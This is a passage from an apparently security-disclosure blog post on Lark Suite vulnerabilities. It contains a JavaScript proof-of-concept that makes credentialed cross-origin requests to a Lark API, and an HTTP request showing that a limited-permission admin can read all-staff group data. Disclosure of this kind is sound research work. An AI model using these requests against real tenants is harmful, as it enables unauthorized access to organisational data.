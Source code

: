 
```js
function AppGrabber()
{
var xhr = new XMLHttpRequest();
xhr.open("GET", "https:\/\/open.larksuite.com\/api\/v3\/app/\cli_9eb747e4557e9106", true);
xhr.setRequestHeader("Accept", "application\/json");
xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
xhr.setRequestHeader("content-type", "application\/json; charset=utf-8");
xhr.withCredentials = true;
xhr.send('{"Body":{},"Head":{}}');
xhr.onreadystatechange = function() {
if (xhr.readyState === 4) {
alert(xhr.response);
}
}
}

```


> The extracted information could later be used to extract more information about the target orginisation.


---
#### Privilege escalation from only view company info to adding and removing staff members.


In this case, Lark-suite allowed admins to invite other admins with specific permissions. There was a *specific permission set* which comprised of various permissions and among them, the admin can specify the *permissions with which he wants users on board*.

In this case *we added a user with only* view company information as shown in this image.

![1](/blog/assets/images/lark/2/1.png)

We gave the new user this(company info) permission and restricted him from other permissions available, which means he should not be able to access other but we managed to figure out that an invited admin with limited privileges can still Edit/Access/Delete All-staff group in the organization.

We sent this `HTTP` request and returned us the *data of the* all of the groups and *an unauthorized user was able to access All staff groups' information*.

```http
GET  /suite/admin/tenant/chatSetting  HTTP/1.1
Host: unzftv7n88.larksuite.com
Connection: close
X-Csrf-Token: [Value]
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
credentials: same-origin
Content-Type: application/json;charset=UTF-8
Cookie: [Value]
```
Spending time with this *unusual behavior* we found a few more *issues* with this feature. As an unprivileged user we were able to escalate our *privileges* and we identified various issues which are as *under*:
